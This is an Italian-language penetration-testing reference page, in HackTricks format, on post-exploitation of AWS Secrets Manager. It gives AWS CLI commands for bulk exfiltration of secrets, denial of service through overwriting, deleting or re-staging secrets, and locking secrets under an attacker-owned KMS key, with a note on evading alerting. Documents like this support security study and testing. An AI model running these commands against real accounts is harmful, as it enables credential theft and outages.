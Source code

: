 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Per maggiori informazioni consulta:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

I **secrets sono informazioni sensibili**, [consulta la pagina privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) per imparare come leggerli.

### DoS Change Secret Value

Cambiare il valore del secret potrebbe **causare un DoS a tutti i sistemi che dipendono da quel valore.**

> [!WARNING]
> Nota che i valori precedenti sono anch'essi memorizzati, quindi è facile tornare al valore precedente.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Se l'attaccante ha il permesso secretsmanager:UpdateSecret, può configurare il secret in modo che utilizzi una KMS key di sua proprietà. Tale KMS key è inizialmente configurata in modo che chiunque possa accedervi e usarla, quindi è possibile aggiornare il secret con la nuova KMS key. Se la KMS key non fosse accessibile, il secret non potrebbe essere aggiornato.

Dopo aver cambiato la KMS key del secret, l'attaccante modifica la configurazione della propria KMS key in modo che solo lui possa accedervi. In questo modo, nelle versioni successive del secret verrà crittografato con la nuova KMS key e, non essendoci accesso ad essa, la possibilità di recuperare il secret verrebbe persa.

È importante notare che questa inaccessibilità si verificherà solo nelle versioni successive, dopo che il contenuto del secret sarà cambiato, poiché la versione corrente è ancora crittografata con la KMS key originale.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Eliminazione del Secret

Il numero minimo di giorni per eliminare un secret è 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

È possibile ripristinare un secret, permettendo il recupero di secret che sono stati programmati per la cancellazione, dato che il periodo minimo di cancellazione per i secret è di 7 giorni e il massimo è di 30 giorni. Insieme al permesso secretsmanager:GetSecretValue, questo rende possibile recuperarne il contenuto.

Per recuperare un secret che è in fase di cancellazione, puoi usare il seguente comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Questa azione permette di eliminare la resource policy che controlla chi può accedere a un secret. Questo potrebbe portare a un DoS se la resource policy era configurata per consentire l'accesso a un insieme specifico di utenti.

Per eliminare la resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Gli stati di un segreto sono usati per gestire le versioni di un segreto. AWSCURRENT indica la versione attiva che le applicazioni utilizzano, AWSPREVIOUS conserva la versione precedente in modo da poter effettuare un rollback se necessario, e AWSPENDING è usato nel processo di rotazione per preparare e validare una nuova versione prima di renderla quella corrente.

Le applicazioni leggono sempre la versione contrassegnata da AWSCURRENT. Se qualcuno sposta quell'etichetta sulla versione sbagliata, le app utilizzeranno credenziali non valide e potrebbero andare in errore.

AWSPREVIOUS non viene usato automaticamente. Tuttavia, se AWSCURRENT viene rimosso o riassegnato in modo errato, potrebbe sembrare che tutto stia ancora girando con la versione precedente.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Esfiltrazione massiva di Secrets via BatchGetSecretValue (fino a 20 per chiamata)

Abusa dell'API Secrets Manager BatchGetSecretValue per recuperare fino a 20 secrets in una singola richiesta. Questo può ridurre drasticamente il numero di chiamate API rispetto all'iterazione con GetSecretValue per ogni secret. Se si usano filtri (tags/name), è anche richiesto il permesso ListSecrets. CloudTrail registra comunque un evento GetSecretValue per ogni secret recuperato nel batch.

Permessi richiesti
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue per ogni secret target
- secretsmanager:ListSecrets se si usa --filters
- kms:Decrypt sui CMK usati dai secrets (se non si usa aws/secretsmanager)

> [!WARNING]
> Nota che la permissione `secretsmanager:BatchGetSecretValue` non è sufficiente per recuperare i secrets; è necessario anche `secretsmanager:GetSecretValue` per ogni secret che si vuole recuperare.

Esfiltrare tramite lista esplicita
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate tramite filtri (tag key/value o name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Gestione dei fallimenti parziali
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impatto
- Rapida “smash-and-grab” di molti secret con meno chiamate API, potenzialmente bypassando alerting tarato sui picchi di GetSecretValue.
- I log di CloudTrail includono comunque un evento GetSecretValue per ogni secret recuperato dal batch.
